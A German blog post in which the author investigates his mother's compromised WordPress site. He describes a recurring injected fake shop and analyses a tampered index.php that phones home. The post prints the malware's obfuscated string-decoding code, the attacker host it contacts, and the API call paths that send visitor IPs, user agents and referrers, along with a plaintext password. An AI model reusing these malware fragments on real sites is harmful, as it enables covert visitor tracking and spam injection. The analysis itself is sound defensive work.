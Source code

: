 ```yaml
---
title: "Wordpress Hack"
date: "2021-08-01T19:30:00+02:00"
draft: false
author: "Marius Timmer"
keywords: ["Wordpress", "Hack", "Angriff", "Fakeshop", "Hetzner", "PHP"]
tags: ["Technik"]
description: "Die WordPress-Seite meiner Mutter wurde gehackt und ich mache mich auf die Spurensuche"
summary: "Da meine Mutter selbstständig ist, hat sie natürlich auch eine eigene Webseite, die im Mittelpunkt ihrer Arbeit steht. Nun hat sich aber irgendwer, oder irgendetwas darauf eingenistet und geht nicht mehr so einfach weg."
---
```


Hin und wieder helfe ich einigen Leuten in meinem Umfeld beim Aufsetzen
und Warten ihrer Internetseiten. So gucke ich immer wieder mal über
die WordPress-Installation meiner Mutter und stelle sicher, dass sie
auch ja alle Updates installiert hat. Einigen von euch stellen sich
die Nackenhaare beim Namen Wordpress wahrscheinlich schon auf (_so
geht es mir auch immer wieder_), aber am Ende bin ich da nur
die ausführende Kraft. Um das einmal klarzustellen: WordPress
ist ein einziges Sicherheitsrisiko. Das verwundert natürlich nicht,
wenn man bedenkt, wie weit verbreitet die Software ist. Sieht man
aber einmal in den Code erkennt man, dass es bei der Entwicklung
kein wirkliches Konzept gegeben hat oder es maximal versucht wurde
nachträglich einzubauen. Da es sich aber mit seinen ganzen Erweiterungen
um ein Gemeinschafts-Projekt handelt, ist es natürlich auch gar nicht
so einfach, einheitlichen und guten Code zu schreiben. Abe rich wäre
ja schon zufrieden, wenn die Datenbank-Verbindung nicht in einer globalen
Variabel von überall aufzurufen wäre.

Der Fake-Shop
-------------
Anfang des Jahres meldete sich dann meine Mutter bei mir, da sich jemand
bei ihr erkundigt hatte, wie der Status einer bestimmten Bestellung sei.
Er habe ein Ersatzteil für seine Modell-Eisenbahn bestellt, bisher aber
noch keine Reaktion erhalten. An dieser Stelle ist zu erwähnen, dass
meine Mutter keinen Shop führt, sondern Fortbildungen anbietet.

Sehr schnell meldete sie sich also bei mir und bat mich um Hilfe.
In der Tat war da ein Shop auf ihrer Seite, den keiner da hin gespielt
hatte. Er sah auch wirklich nicht gut aus, da einzelne Fragmente
(_Bilder, Preise, Beschreibungen_) einfach in die schon existierende
Seite meiner Mutter eingebettet wurden. Wer darauf rein fällt, bettelt
förmlich auch darum. Allerdings ist das natürlich dennoch ein großes
Problem. Schließlich ist da ein Shop von irgendwelchen Betrügern auf
der Seite meiner Mutter, die somit auch dafür (_juristisch_) verantwortlich
ist.

Ich fand heraus, welche Dateien betroffen waren. Es existierte ein
Verzeichnis (_`designthemes`_), welches ich einfach löschen musste.
Zudem wurde die `.htaccess`-Datei modifiziert, sodass Gäste auf
die Seiten im besagten Verzeichnis geleitet wurden. Der Säuberungsprozess
selbst ging also recht schnell. Einen Tag später wurde ich aber wieder
informiert, dass der Shop zurück sei. Das wunderte mich tatsächlich,
beantwortete mir aber die Frage aller Fragen: Wie ist der Shop da
hingekommen?

Die erste Reaktion bei solchen "_Einbrüchen_" ist natürlich erst einmal
der Austausch sämtlicher Passwörter. Um so erstaunter war ich dann aber,
als ich hörte, dass der Shop zurück sei. Ich schloss somit nun aber aus,
dass jemand die FTP-Zugangsdaten herausgefunden hat und sah mir die
WordPress-Installation meiner Mutter noch einmal näher an. Tatsächlich
fand ich ein kompromitiertes PHP-Skript und ein als gif-Datei getarntes
Skript, welche beim Aufruf durch Nutzer immer wieder angestoßen wurde
und unter Anderem den Shop wieder holte.

Bisher hatte ich noch nicht die Zeit gefunden, mir das Problem genaue
anzusehen. Wenn ich aber schon nicht die Ursache nicht so schnell finden
konnte, wollte ich zumindest die Symptome bekämpfen. Schließlich war
meine Mutter hier rechtlich angreifbar und auch ihre Google-Platzierung
litt natürlich darunter.

Was ich also machte, war ein kleines Skript zu schreiben, welches sich
alle 5 Minuten per FTP mit dem Server verbindet und prüft, ob das mysteriöse
Verzeichnis existiert. Wenn es gefunden wird, wird es direkt gelöscht und
die `.htaccess` wiederhergestellt. Das ist natürlich keine Dauerlösung,
aber die hereinzufallenden Besucher erhielten beim Klick auf die immer
weiter sinkenden Google-Ergebnisse nur noch <abbr title="Seite nicht
gefunden">404</abbr>-Seiten, womit das gröbste Problem schon einmal gelöst war.

Nun geht das schon einige Monate so, ich weiß aber noch immer nicht, wo
der Shop immer wieder her kommt. Die besagten beiden Skripte habe ich
mehrfach gelöscht und an anderen Stellen konnte ich keine Hinweise auf
weitere mysteriöse Dateien feststellen. Zumindest hatte ich einmal den
gesamten Dateibaum heruntergeladen und durchsucht. Daher werde ich mir
nun wohl den Code genauer ansehen. Ich sehe es als eine Art Schnitzeljagd
mit PHP-Code.

Die Subdomain
-------------
Seit letzter Woche betreibt meine Mutter eine weitere WordPress-Instanz
auf einer Subdomain. Von einem auf den anderen Tag war diese nicht mehr
zu erreichen. Daher bat sie mich wieder um Hilfe. Zwei Stunden lang sah
ich mir diverse Hetzner-Konfigurationen an und suchte den Grund, wieso
die Subdomain nicht lief. Viel zu spät bemerkte ich erst, dass die
Subdomain an sich funktionierte, allerdings gab das WordPress nur eine
leere Antwort zurück.

Zuerst verdächtigte ich sämtliche WordPress-Erweiterungen irgendeinen
Unfug zu treiben, zumal es eine Fehlermeldung in den Protokollen
bezüglich veralteter Funktionsaufrufe gab. Dann sah ich mir aber
_aus einer Laune heraus_ einfach mal die `index.php` an und sah,
dass sie ganz merkwürdig aussah. Ganz viel "_Security by obscurity_"
war da drin, was ich im Folgenden zeigen möchte.

Zuerst wird die Fehlerausgabe deaktiviert, weswegen meine Versuche mit der
Apache-Konfiguration Fehlermeldungen auszugeben alle scheiterten. Anschließend
werden merkwürdig benannte Strings definiert, die im Anschluss mit
verschiedenen Offsets ausgelesen werden, woraus sich z.B. auch der Hostname
des Control-Servers ergibt.
```php
//CX3_CX4
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');
$OoooOO0 = 'czhnientytwoj';
$OOOOOO = "%71%77%65%72%74%79%75%69%6f%70%61%73%64%66%67%68%6a%6b%6c%7a%78%63%76%62%6e%6d%51%57%45%52%54%59%55%49%4f%50%41%53%44%46%47%48%4a%4b%4c%5a%58%43%56%42%4e%4d%5f%2d%22%3f%3e%20%3c%2e%2d%3d%3a%2f%31%32%33%30%36%35%34%38%37%39%27%3b%28%29%26%5e%24%5b%5d%5c%5c%25%7b%7d%21%2a";
$O = urldecode($OOOOOO);
```

Ganz grob lässt sich sagen, dass das Skript möglichst viele Informationen
sammelt und dann an den eigenen Server weiter gibt (_nach Hause telefoniert_):

 - Dokumenten-Root-Verzeichnis
 - Angefragte URL
 - Hostname
 - Sprache
 - User-Agent (_benutzter Browser_)
 - Referrer (_Von wo der Nutzer weiter geleitet wurde_)
 - Verschlüsselte Kommunikation oder nicht (_`HTTP`/`HTTPS`_)
 - Ggf. abweichendes Protokoll
 - IP des Nutzers

Diese Daten werden gesammelt und anschließend an `czhnientytwoj.fluux.xyz` übermittelt. Den Host-Betreiber der Domain habe ich bereits informiert und eine Antwort steht noch aus. Beim nach Hause telefonieren werden die gesammelten Daten zum einen übertragen, aber vor allem wird auch die "_<abbr title="Schnittstelle">API</abbr>_" des angreifers angesprochen. Dabei wird jedes mal ein Passwort übertragen, dass im Klartext vorhanden und gar nicht mal so gut ist. Es lautet nämlich `sl123`. Das ist aber höchst wahrscheintlich nicht schlimm, weil der Angreifer das sowieso nur nutzt, um genau diese Befehle auszuführen, die in diesem Skript getätigt werden. Bei jedem Besuch der Seite wird somit der Angreifer informiert, dass die Seite meiner Mutter noch online ist und jede Veränderung der übertragenen Daten fällt auch sofort auf.

Insgesamt werden die folgenden (_API-_)Aufrufe getätigt:

```php
/Api/siteAllMap.php?page=' . $rUrl . '&pwd=sl123&domain=' . $typeName
/Api/siteUrlApi.php?stype=sitemap&num=6000&pr=' . $pr . '&url=' . $rUrl . '&domain=' . $typeName . '&ip=' . $client_ip
/jump.php?domain=' . $sName . '&page=' . $rUrl . '&bot=0&pr=' . $pr . '&refer=' . $referer . '&ip=' . $client_ip . '&lg=' . $Ooolg
/918.php?domain=' . $sName . '&page=' . $rUrl . '&bot=1&pr=' . $pr . '&ip=' . $client_ip . '&lg=' . $Ooolg
/org.php?domain=' . $sName . '&page=' . $rUrl . '&pr=' . $pr . '&ip=' . $client_ip . '&lg=' . $Ooolg
```

Somit weiß ich auf jeden Fall, wo ich in den kommenden Tagen ansetzen
und meine Schnitzeljagd fortsetzen kann. Wenn ihr auch Interesse haben
solltet, eröffne ich hiermit die Jagd. Das PHP-Skript könnt ihr als
Text-Datei [hier](/attachments/index_hacked.txt) herunterladen.

Interessant finde ich auch, dass sich der _Angreifer_ nicht die Mühe
gemacht hat, die beiden Zeilen am Ende anzufügen, durch die Wordpress
aufgerufen wird. Wären diese beiden Zeilen dort, wäre der "_Hack_"
vermutlich nicht einmal aufgefallen.

Am Ende frage ich mich nun aber noch immer, wie die beiden Angriffe
funktionieren, damit ich das verhindern kann. esucher der Seite können
eigentlich nichts hochladen. Auch wenn auf der Seite sogar die Kommentarfunktion
ohne Captchas aktiviert war. Seit gestern ist das zumindest auch anders.
Aber ich bezweifle, dass der Angriff jedes mal über die Funktion kommt.
Es bleibt also spannend.
